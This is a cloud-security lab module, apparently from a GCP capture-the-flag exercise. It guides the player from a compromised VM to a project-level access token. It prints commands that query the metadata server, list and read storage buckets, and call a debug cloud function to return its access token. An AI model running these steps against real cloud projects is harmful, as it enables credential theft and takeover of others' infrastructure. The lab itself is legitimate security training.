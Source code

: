 # Module 3: Invoking answers

## Introduction

You can control a compute instance in the project! Let's find out which permissions this instance has in GCP.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list


> **Background Info:**  
> Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
> As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
> #####
>     curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"
> 
> As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  


The service account of this compute engine is the default compute service account: `<project-nr>-compute@developer.gserviceaccount.com`.  
A very powerful account in GCP! By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

## Your Goal

**Invoke and exploit another resource to find a powerful access token allowing you to gain control over the project**

## Useful commands and tools:
- the compute engine also has gcloud installed
- the compute engine has a script that could be helpful
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

## Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
      gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
      gsutil ls gs://cloud-function-bucket-module3
  #####
      gsutil cat gs://cloud-function-bucket-module3/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone made it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email. 
  
  The function URL is stored in /home/alice/.function_url on the VM. You can also invoke the function directly:
  #####
      # Read the function URL from the file
      FUNCTION_URL=$(cat /home/alice/.function_url)
      
      # Invoke the function to get its token
      curl -s -X POST "$FUNCTION_URL" -H "Authorization: Bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

## First stage of compromise achieved!

When you completed the challenge read [here](../extras/first-stage-compromised.md) what your new access token can do.
